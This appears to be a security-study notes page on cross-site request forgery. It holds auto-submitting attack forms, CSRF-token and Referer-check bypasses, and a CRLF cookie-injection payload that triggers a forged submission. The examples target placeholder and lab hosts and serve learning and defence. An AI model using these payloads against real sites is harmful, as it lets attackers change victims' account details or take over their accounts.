 # CSRF

<details>

<summary>Impact</summary>

* The attacker causes the victim user to carry out an action unintentionally
  * Change password, email, make a funds transfer

<!---->

* If the victim is a privileged user the attacker might be able to take full control of all the application's

</details>

## Conditions

* A relevant action
  * Example: change password
* Cookie-based session handling
* No unpredictable request parameters:
  * If you need to know the value of the existing password -> no vulnerable

## Examples

1. with POST

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2. with GET

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

1. CSRF tokens

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

1. SameSite cookies
2. Referer-based validation

### CSRF tokens bypass

**Switch from POST to the GET method to bypass**

***

**Remove the entire parameter containing the token**

***

Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens) . Simply **invent a token in the required format**

***

Some apps don't validate if the token belongs to the same session as the requesting user.

Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack

***

Some applications do tie the CSRF token to a cookie, but not to the session cookie.&#x20;

So there are two token: one in a cookie and one in hidden input. (this can also have the same value)



Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;

```http
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

Log in to the application with your account -> obtain a valid token and associated cookie.

Remove the auto-submit `<script>` block, and add the following code to inject the cookie.

```html
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

### SameSite cookies bypass

It determines when a website's cookies are included in requests originating from other websites

## TO DO

### Referer-based validation bypass

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

* Validation of Referer depends on header being present
  * Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * `http://vulnerable-website.com.attacker-website.com/csrf-attack`
  * `http://attacker-website.com/csrf-attack?vulnerable-website.com`
  * `http://attacker-website.com/vulnerable-website.com`
  * Note 1: add Referrer-Policy: unsafe-url
    * One way to set it in html: `<meta name="referrer" content="unsafe-url" />`
  * Note 2: Firefox 87 new default Referrer Policy ‘strict-origin-when-cross-origin’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
  * Note 3: Instead of use http://attacker-website.com/vulnerable-website.com that looks strange you can use http://attacker-website.com/ and add `<script>history.pushState('', '', '/attacker-website.com')</script>`

More info about setting Referer-Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy

